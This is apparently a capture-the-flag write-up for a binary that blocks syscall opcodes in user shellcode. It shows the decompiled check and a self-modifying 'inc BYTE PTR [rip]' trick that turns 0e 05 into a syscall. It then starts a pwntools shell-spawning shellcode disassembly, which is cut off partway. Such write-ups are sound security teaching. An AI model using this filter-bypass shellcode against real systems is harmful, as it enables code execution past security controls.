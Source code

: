 ```c
  {
    puts("Hey! I told you no syscalls! :(");
    exit(1);
  }
  puts("Executing your assembly code!");
  fflush(stdout);
  qword_6020A0 = haystack;
  (haystack)();
  return 0LL;
}
```

As seen from above, the binary reads in our shellcode into `buf`. 
```c
fgets(buf, 200, stdin);
```

The shellcode is then converted using the `convert_bytecode()` function and stored in `haystack`.
```c
v5 = convert_bytecode(buf, haystack);
```

This is the important part: If `syscall` or `int 0x80` instructions are found in the shellcode, the binary immediately exits without executing our shellcode:
```c
if ( memmem(haystack, v5, &syscall, 2uLL) || memmem(haystack, v5, &int_0x80, 2uLL) ) {
    puts("Hey! I told you no syscalls! :(");
    exit(1);
}
```

Thus, the objective is to somehow bypass this `syscall` filter and let the binary execute our shellcode here:
```c
puts("Executing your assembly code!");
(haystack)();
```

Initially, I thought of somehow not using `syscall` instructions at all. However, a quick Google search showed me [this](https://stackoverflow.com/questions/52620930/is-there-a-way-to-write-shellcode-for-sendfile-that-does-not-use-syscall-instruc):
> Or even easier, start with `0e 05` ... in memory, and use `inc  byte ptr  syscall_location[rip]` to modify it to `0f 05` ...

As the opcode of `syscall` is `0f 05`, the idea is to first write `0e 05` in our shellcode, and then increment the instruction using `inc BYTE PTR [rip]` to make it `0f 05`: 
```shell
fe 05 00 00 00 00       inc    BYTE PTR [rip]   // increment instruction below by 1
0e 05                   ???                     // becomes syscall when executed
```

Now that we have a way to use `syscall` instructions, all that's left to do is write shellcode to pop shell, which is trivial with `pwntools`:
``` shell
$ python
Python 2.7.18 (default, Aug  4 2020, 11:16:42)
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> print disasm(asm(shellcraft.sh()))
   0:   6a 68                   push   0x68
   2:   68 2f 2f 2f 73          push   0x732f2f2f
   7:   68 2f 62 69 6e          push   0x6e69622f
   c:   89 e3                   mov    ebx, esp
   e:   68 01 01 01 01          push   0x1010101
  13:   81 34 24 72 69 01 01    xor    DWORD PTR [esp], 0x1016972
  1a:   31 c9                   xor    ecx, ecx
  1c:   51                      push   ecx
```